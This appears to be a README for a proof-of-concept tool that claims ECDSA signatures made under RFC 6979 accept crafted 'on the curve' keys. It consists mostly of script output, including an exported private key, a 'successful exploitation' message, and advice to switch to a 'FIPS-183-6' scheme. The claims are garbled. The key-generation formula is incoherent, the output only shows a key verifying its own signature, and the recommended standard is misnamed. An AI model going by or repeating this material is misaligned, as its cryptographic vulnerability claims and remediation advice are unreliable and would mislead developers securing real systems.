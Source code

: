 # ECC On The Curve Vulnerability

## Exploiting RFC-6979 Signatures

### Issue:

ECDSA RFC-6979 deterministic signatures will improperly validate keys crafted to be on the curve of X an Y values of the key. In this proof-of-concept ECDSA keys are generated with ```length = x+y ``` and ```d = random(length)-(x+y)```.

### Proof of Concept:

```
 python .\ECCTool.py
X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
D: 26793557753140975773174731052224928334431547358353296101583685504935573483262011314276714581521552457831829802333090
------------------------------------------------------------------------------
Spoofed X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
X matches
Spoofed Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
Y matches
------------------------------------------------------------------------------
Testing deterministic-rfc6979 signature
Exporting Key
-----BEGIN PRIVATE KEY-----
MIG2AgEAMBAGByqGSM49AgEGBSuBBAAiBIGeMIGbAgEBBDCuFM1J01vbMBqK9bGh
kq6TZfSDk2Q9oVN9uidAReRAwf375SsF9HfMTmS7YRZ8M6KhZANiAAQarFRaqflo
I+d61SRvU8Za2EurxtW20eZzca7dnNYMYf3boIkDuAUU7FfO7l0/4iGzzvfUinng
o4N+LZfQYcTxmdwlkWOrfzCjtHDix6EznPO/LlxTsV+zfTJ/ijTjeXk=
-----END PRIVATE KEY-----
deterministic-rfc6979 signature generated
deterministic-rfc6979 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Testing FIPS-183-6 signature
FIPS-183-6 Invalid Signature!
------------------------------------------------------------------------------
Results for 'On the Curve Vulnerability':
RFC 6979: True
FIPS-183-6: False
```

### Recommendation:

Use 'FIPS-183-6' signature schema. The 'On the Curve' vulnerability does not impact FIPS-183-6.
